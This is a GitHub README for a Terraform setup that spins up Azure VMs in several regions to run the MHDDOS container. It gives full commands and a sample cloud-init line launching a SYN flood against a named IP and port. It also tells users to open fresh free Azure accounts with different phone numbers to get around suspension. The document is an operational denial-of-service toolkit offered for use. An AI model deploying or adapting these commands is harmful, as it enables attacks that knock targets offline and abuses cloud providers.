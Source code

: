 # Overview
Here I use Terraform to automate Azure VM deployment which run MHDDOS docker container.
You can deploy VMs to any Azure region, I prefer those that are located in Asia.   
- Default region - `koreacentral` (Central Korea)
- Default VM count - `4` (In free Azure subscription it's allowed only 4 vCPUs in a single region)
- Default VM SKU - `Standard_F1s` (1 vCPU, 1 GiB RAM, accelerated networking - ON, price around 0.05 USD/hour)
- Default resource group - `mhddosGroup`  

To change default values you can amend the`variables.tf` file, to customize through terminal:
```shell
terraform apply ... -var="<variableName>=<variableValue>"
```

# Prerequisites

You must have a Microsoft Azure account, it's better off using a free subscription (200 USD for 30 days).
Also, installed azure CLI and terraform tools are required. In general, udp/tcp/dns mhddos attacks
are network intensive so your free subscription will be suspended after a max of 24 hours of active attacks. SYN mhddos attack doesn't require many network resources thus you can use your subscription
longer.  
After your subscription is over you can register a new Microsoft account and apply for a new free Azure
subscription. The main rule here is to specify different phone number. If you have any other ideas
or real experience on creating multiple Microsoft Azure free accounts - feel free to describe this here using a pull request.

# Getting started

1. Log in Azure
```shell
az login
```
2. Initialize terraform
```shell
terraform init
```
2. Select target and type of attack by changing in `cloud-init.yaml` the `runcmd` attribute.  
`docker run --name mhddos --rm -d djebos/mhddos:latest` command is static and mustn't be changed. All your 
customizations must follow this command as in example below:

```yaml
# TCP syn flood attack on ip 15.61.23.9, port 53, 100 threads, duration 999999 seconds
runcmd:
  - docker run --name mhddos --rm -d djebos/mhddos:latest syn 15.61.23.9:53 100 999999
# here syn 15.61.23.9:53 100 999999 is your attack configuration that fully compliant with original MHDDOS
```
3. Deploy to the specified azure region (you must be logged in through `az login`). Examples:  
```shell
terraform apply -state india.tfstate -var="location=southindia" -var="resource_group_name=mhddosIndia"
terraform apply -state korea.tfstate -var="location=koreacentral" -var="resource_group_name=mhddosKorea"
terraform apply -state japan.tfstate -var="location=japaneast" -var="resource_group_name=mhddosJapan"
```
4. Verify after a couple of minutes on azure portal the load of VMs' CPUs. It must be around 100%
5. Stop attack and destroy VMs. Examples:
```shell
terraform destroy -state india.tfstate
terraform destroy -state korea.tfstate 
terraform destroy -state japan.tfstate 
```
# Troubleshooting
Your attack could fail due to numerous reasons: wrong configuration, ip isn't reachable etc. Therefore, you 
have to connect to your VMs and figure things out. 
1. Find out the target VM public ip through Azure Portal or using terminal
```shell
terraform output -state <your_state_file>.tfstate instancePublicIPs
```
2. Export a private key to a file:
```shell
terraform output -raw -state <your_state_file>.tfstate tls_private_key > key.pem
```
3. Add read access:
```shell
chmod 400 key.pem
```
4. Connect via SSH:
```shell
ssh -i key.pem azureuser@<your_vm_IP>
```
5. Check a status of the `mhddos` docker container:
```shell
sudo docker ps
```
